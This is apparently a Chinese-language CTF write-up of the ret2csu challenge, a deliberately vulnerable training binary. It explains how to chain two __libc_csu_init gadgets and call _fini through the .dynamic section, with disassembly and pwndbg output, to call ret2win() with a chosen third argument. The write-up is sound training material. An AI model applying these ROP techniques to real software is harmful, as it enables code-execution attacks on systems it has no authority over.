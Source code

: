 > 1. The challenge is simple: call the ret2win() function
> 2. The third argument (rdx) must be 0xdeadcafebabebeef
> 3. There's no gadget such as `pop rdx`

<br>

## Reverse
根据题意，呼叫 ret2win()，并且第三个参数为 0xdeadcafebabebeef 即可。

<br>

## ROP Gadgets
用 ROPgadget 看一下，没有可用的 gadgets。
```
> ROPgadget --binary ret2csu | grep rdx
0x0000000000400567 : lea ecx, [rdx] ; and byte ptr [rax], al ; test rax, rax ; je 0x40057b ; call rax
0x000000000040056d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
```

## Return-to-csu
在 __libc_csu_init() 里面，我们可以找到两个很有用的 gadgets。
```
pwndbg> disas __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x0000000000400840 <+0>:     push   r15
   0x0000000000400842 <+2>:     push   r14
   0x0000000000400844 <+4>:     mov    r15,rdx
   0x0000000000400847 <+7>:     push   r13
   0x0000000000400849 <+9>:     push   r12
   0x000000000040084b <+11>:    lea    r12,[rip+0x2005be]        # 0x600e10
   0x0000000000400852 <+18>:    push   rbp
   0x0000000000400853 <+19>:    lea    rbp,[rip+0x2005be]        # 0x600e18
   0x000000000040085a <+26>:    push   rbx
   0x000000000040085b <+27>:    mov    r13d,edi
   0x000000000040085e <+30>:    mov    r14,rsi
   0x0000000000400861 <+33>:    sub    rbp,r12
   0x0000000000400864 <+36>:    sub    rsp,0x8
   0x0000000000400868 <+40>:    sar    rbp,0x3
   0x000000000040086c <+44>:    call   0x400560 <_init>
   0x0000000000400871 <+49>:    test   rbp,rbp
   0x0000000000400874 <+52>:    je     0x400896 <__libc_csu_init+86>
   0x0000000000400876 <+54>:    xor    ebx,ebx
   0x0000000000400878 <+56>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400880 <+64>:    mov    rdx,r15
   0x0000000000400883 <+67>:    mov    rsi,r14
   0x0000000000400886 <+70>:    mov    edi,r13d
   0x0000000000400889 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040088d <+77>:    add    rbx,0x1
   0x0000000000400891 <+81>:    cmp    rbp,rbx
   0x0000000000400894 <+84>:    jne    0x400880 <__libc_csu_init+64>
   0x0000000000400896 <+86>:    add    rsp,0x8
   0x000000000040089a <+90>:    pop    rbx
   0x000000000040089b <+91>:    pop    rbp
   0x000000000040089c <+92>:    pop    r12
   0x000000000040089e <+94>:    pop    r13
   0x00000000004008a0 <+96>:    pop    r14
   0x00000000004008a2 <+98>:    pop    r15
   0x00000000004008a4 <+100>:   ret
End of assembler dump.
```

gadget1：
```
   0x0000000000400880 <+64>:    mov    rdx,r15
   0x0000000000400883 <+67>:    mov    rsi,r14
   0x0000000000400886 <+70>:    mov    edi,r13d
   0x0000000000400889 <+73>:    call   QWORD PTR [r12+rbx*8]
```

gadget2：
```
   0x000000000040089a <+90>:    pop    rbx
   0x000000000040089b <+91>:    pop    rbp
   0x000000000040089c <+92>:    pop    r12
   0x000000000040089e <+94>:    pop    r13
   0x00000000004008a0 <+96>:    pop    r14
   0x00000000004008a2 <+98>:    pop    r15
   0x00000000004008a4 <+100>:   ret
```

通过 gadget2 和 gadget1，我们可以控制 edi, rsi, rdx，也就是前三个参数。

至于 `r12 + rbx*8` 我们可以试着拼凑出一个指向 plt 或 got 中某条 entry 的 address。

<br>

## Pwn
但这题有个很坑的地方：在 GOT/PLT 中我们无法找到 ret2win() 的 entry，但是透过以下方法可以找到：
```
pwndbg> info address ret2win
Symbol "ret2win" is at 0x4007b1 in a file compiled without debugging.
```

我们只要想办法在内存某处，塞入这个 address 然后让 r12 + rbx*8 指向 address 所在的那个 qword 即可。

但是如果是在 stack 上，这肯定是不可行的，因为 ASLR = 1、2 时 stack 的位址是随机化的。

但这题有个很奇怪的点，不知道为什么 fgets() 输入的东西，居然会被映射在 heap 上某处！？？？

然后因为 PIE 没开启，只要 ASLR = 0 或 1，这题就可以轻松解决！

但这里不说这个，有兴趣自己试试看，我们说说比较可靠的解法。

<br>

到 *__libc_csu_init+73 的时候，会呼叫 [r12+rbx*8] 这个位址的 function，我们必须：
1. 不要 segfault
2. 不要动到 rdx
```
   0x0000000000400880 <+64>:    mov    rdx,r15
   0x0000000000400883 <+67>:    mov    rsi,r14
   0x0000000000400886 <+70>:    mov    edi,r13d
   0x0000000000400889 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040088d <+77>:    add    rbx,0x1
   0x0000000000400891 <+81>:    cmp    rbp,rbx
   0x0000000000400894 <+84>:    jne    0x400880 <__libc_csu_init+64>
   0x0000000000400896 <+86>:    add    rsp,0x8
   0x000000000040089a <+90>:    pop    rbx
   0x000000000040089b <+91>:    pop    rbp
   0x000000000040089c <+92>:    pop    r12
   0x000000000040089e <+94>:    pop    r13
   0x00000000004008a0 <+96>:    pop    r14
   0x00000000004008a2 <+98>:    pop    r15
   0x00000000004008a4 <+100>:   ret
```

有个很好的对象可以呼叫，看看 _fini()：
```
pwndbg> disas _fini
Dump of assembler code for function _fini:
   0x00000000004008b4 <+0>:     sub    rsp,0x8
   0x00000000004008b8 <+4>:     add    rsp,0x8
   0x00000000004008bc <+8>:     ret
End of assembler dump.
```

在 .dynamic (dynamic section) 里记录了 _fini() 的真实位址：
```
pwndbg> x/10gx &_DYNAMIC
0x600e20:       0x0000000000000001      0x0000000000000001
0x600e30:       0x000000000000000c      0x0000000000400560
0x600e40:       0x000000000000000d      0x00000000004008b4 <--- _fini
（省略若干行）
```

所以我们只要让 r12+rbx*8 等于 0x600e48， 那么 qword ptr [r12+rbx*8] 就会等于 0x00000000004008b4。

但必须注意，在 call qword ptr [r12+rbx*8] 之后：
```
0x000000000040088d <+77>:    add    rbx,0x1
0x0000000000400891 <+81>:    cmp    rbp,rbx
0x0000000000400894 <+84>:    jne    0x400880 <__libc_csu_init+64>
```

我们可以让 rbx = 0，rbp = 1，这样 rbx += 1 之后就会和 rbp 相等，就不会 jne 0x400880。

接着就会继续执行后面几行：
```
0x0000000000400896 <+86>:    add    rsp,0x8
0x000000000040089a <+90>:    pop    rbx
0x000000000040089b <+91>:    pop    rbp
0x000000000040089c <+92>:    pop    r12
0x000000000040089e <+94>:    pop    r13
0x00000000004008a0 <+96>:    pop    r14
0x00000000004008a2 <+98>:    pop    r15
0x00000000004008a4 <+100>:   ret
```

要注意在 pop rbx 到 ret 之前，还有个 add rsp, 0x8！

所以这边开始需要 `7 * 'AAAAAAAA' + ret2win` 而不是 `6 * 'AAAAAAAA' + ret2win` (多垫一组 padding)
